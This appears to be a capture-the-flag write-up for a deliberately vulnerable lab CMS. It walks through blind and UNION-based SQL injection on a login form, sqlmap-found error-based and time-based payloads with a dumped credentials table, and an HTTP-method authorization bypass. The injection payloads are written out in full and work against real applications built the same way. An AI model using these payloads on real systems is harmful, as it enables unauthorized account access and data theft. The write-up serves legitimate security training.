

# Micro-CMS v2

## Difficulty: Moderate

## About

This CTF challenge involved a login form vulnerable to SQLi, which is exploited to gain account access.

There are 3 flags to capture from 0-2.

## FLAG2

Navigating the site, pages 1-3 exist, but page 3 (```/page/3```) shows a permission error and all links lead eventually to the login page:



Enter a single quote ```'``` into the ```Username:``` field shows that it is vulnerable to SQLi and provides a useful error message:

>Traceback (most recent call last):
>  File "./main.py", line 145, in do_login
>    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
>  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
>    self.errorhandler(self, exc, value)
>  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
>    raise errorvalue
>ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual >that corresponds to your MariaDB server version for the right syntax to use near >''''' at line 1")

The query used is ```SELECT password FROM admins WHERE username=\'%s\''``` and the DBMS is MySQL.

Before using sqlmap, try exploit it manually, which is less intrusive and can yield different results, some of which sqlmap may miss.

Entering Username: ```'-- ``` yields an ```Unknown user``` error. Entering Username ```' or 1=1-- ``` yields an ```Invalid password``` error.

These error messages can be exploited to find valid usernames and passwords. E.g. to determine the length of the password of a valid password:

Username: ```' or IF(length(password)<10, TRUE, FALSE)-- ```

This query results in error message ```Invalid password```, indicating that the ```IF``` statement returned true, which confirms that the length of the password is less than 10. Similarly, if the error message ```Unknown user``` is shown, it indicates that the ```IF``` statement returned false. Using this query, it is deduced that the length of the password is ```7```.

Now, each character in the password can similarly be found using the ```substring()``` function: ```' or IF(substring(password,1,1)='x', TRUE, FALSE)-- ```. Here, the first character in the password is tested to see if it equals ```'x'```. By testing all characters until character 7 (the length found earlier) and seeing if the ```Invalid password``` error is shown to see if the character is correct, the password can be found. Write a script or use Burp Intruder to automate this. 

E.g. find the first character with ```' or IF(substring(password,1,1)='TEST_CHAR_HERE', TRUE, FALSE)-- ```, the second character with ```' or IF(substring(password,2,1)='TEST_CHAR_HERE', TRUE, FALSE)-- ```, and so on until ```(substring(password,7,1)```.

Doing this deduced the password, and upon using it to logon, yielded ```FLAG2```.

#### FLAG2 is captured.

## FLAG0

(Alternate solution than what follows: Upon reviewing the hints, it suggests using a ```UNION``` injection. Therefore, ```UNION``` can be leveraged with keyword ```AS``` to get password from an alias rather than from the actual table e.g. Username: ```' UNION SELECT '1234' as password-- ``` and Password: ```1234``` successfully logs in and allows the viewing of private ```/page/3```. This is much simpler than the exploit that sqlmap found.)

The ```IF``` statement query used to find ```FLAG2``` can be exploited further on ```information_schema.tables``` to get the names of databases and tables using columns ```TABLE_SCHEMA``` and ```TABLE_NAME```, but given the large search space this would be very time consuming.

So to save time, try sqlmap on the login form with ```--risk=3``` to try to find a better exploit, which found:

>Parameter: username (POST)
>    Type: error-based
>    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
>    Payload: username=yZPi' AND (SELECT 7245 FROM(SELECT COUNT(*),CONCAT(0x716a767a71,(SELECT (ELT(7245=7245,1))),0x71766b7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'zGLM'='zGLM&password=
>
>    Type: time-based blind
>    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
>    Payload: username=yZPi' AND (SELECT 6535 FROM (SELECT(SLEEP(5)))ExUj) AND 'cIlM'='cIlM&password=

Two exploits found: One exploit leverages the error message, the other leverages a blind time-based query to deduce data. Use these to dump to DBs:

>web server operating system: Linux Ubuntu
>web application technology: Nginx 1.14.0
>back-end DBMS: MySQL >= 5.0
>available databases [4]:
>[*] information_schema
>[*] level2
>[*] mysql
>[*] performance_schema
>
>Database: level2
>Table: admins
>[1 entry]
>+----+----------+----------+
>| id | username | password |
>+----+----------+----------+
>| 1  | shayna   | tanesha  |
>+----+----------+----------+
>
>Database: level2
>Table: pages
>[3 entries]
>+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
>| id | body                                                                                                                                                                                                                                                                                                                           | title               | public |
>+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
>| 1  | ## Version 2\\nThis version fixed the multitude of security flaws and general functionality bugs that plagued v1.  Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20.  By default, users need to be an admin to add or edit pages now.\\n | Micro-CMS Changelog | 1      |
>| 2  | Just testing some markdown functionality.\\n\\n\!\[adorable kitten](https://static1.squarespace.com/static/54e8ba93e4b07c3f655b452e/t/56c2a04520c64707756f4267/1493764650017/)\\n\\n<button>Some button</button>                                                                                                                 | Markdown Test       | 1      |
>| 3  | My secret is **FLAG0**                                                                                                                                                                                                                                      | Private Page        | 0      |
>+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+

DB ```level2``` contains the contents of each page, including the private page ```/page/3``` which contains FLAG0.

#### FLAG0 is captured.

## FLAG1

Hints state:
- Just because request fails with one method doesn't mean it will fail with a different method
- Different requests often have different required authorization

This seems to point to HTTP methods. Try changing the method on pages that require authorization e.g.

Change ```GET /x/page/edit/2 HTTP/1.1``` to ```POST /x/page/edit/2 HTTP/1.1```

#### FLAG1 is captured.

All flags captured
=====
